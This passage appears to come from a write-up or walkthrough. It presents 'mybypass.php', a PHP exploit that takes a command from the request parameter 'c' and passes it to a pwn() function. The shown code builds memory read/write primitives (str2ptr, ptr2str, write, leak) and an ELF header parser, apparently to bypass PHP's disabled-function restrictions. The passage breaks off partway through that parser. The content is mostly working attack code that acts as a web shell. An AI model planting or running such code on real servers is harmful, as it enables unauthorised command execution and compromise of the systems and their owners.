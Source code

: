to this 
pwn("c")
```
so final exploit and bypass will be 

mybypass.php  
```php

<?php
pwn($_REQUEST['c']);

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
```
